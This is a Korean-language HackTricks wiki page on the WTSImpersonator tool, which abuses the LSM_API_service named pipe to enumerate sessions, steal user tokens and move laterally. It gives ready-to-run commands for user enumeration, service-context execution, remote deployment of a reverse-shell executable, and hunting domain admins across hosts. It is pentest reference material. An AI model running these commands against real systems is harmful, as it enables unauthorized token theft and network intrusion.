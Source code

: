{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**WTS Impersonator** 도구는 **"\\pipe\LSM_API_service"** RPC 명명된 파이프를 이용하여 로그인한 사용자를 은밀하게 열거하고 그들의 토큰을 탈취하여 전통적인 토큰 가장 기법을 우회합니다. 이 접근 방식은 네트워크 내에서 원활한 측면 이동을 촉진합니다. 이 기법의 혁신은 **Omri Baso**에게 기인하며, 그의 작업은 [GitHub](https://github.com/OmriBaso/WTSImpersonator)에서 확인할 수 있습니다.

### 핵심 기능
이 도구는 API 호출의 연속을 통해 작동합니다:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### 주요 모듈 및 사용법
- **사용자 열거**: 도구를 사용하여 로컬 및 원격 사용자 열거가 가능합니다. 각 시나리오에 대한 명령어 사용:
- 로컬:
```powershell
.\WTSImpersonator.exe -m enum
```
- 원격, IP 주소 또는 호스트 이름을 지정하여:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **명령 실행**: `exec` 및 `exec-remote` 모듈은 작동을 위해 **서비스** 컨텍스트가 필요합니다. 로컬 실행은 WTSImpersonator 실행 파일과 명령만 필요합니다:
- 로컬 명령 실행 예:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exe를 사용하여 서비스 컨텍스트를 얻을 수 있습니다:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **원격 명령 실행**: PsExec.exe와 유사하게 원격으로 서비스를 생성하고 설치하여 적절한 권한으로 실행할 수 있게 합니다.
- 원격 실행 예:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **사용자 헌팅 모듈**: 여러 시스템에서 특정 사용자를 대상으로 하여 그들의 자격 증명으로 코드를 실행합니다. 이는 여러 시스템에서 로컬 관리자 권한을 가진 도메인 관리자를 타겟팅하는 데 특히 유용합니다.
- 사용 예:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```


{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
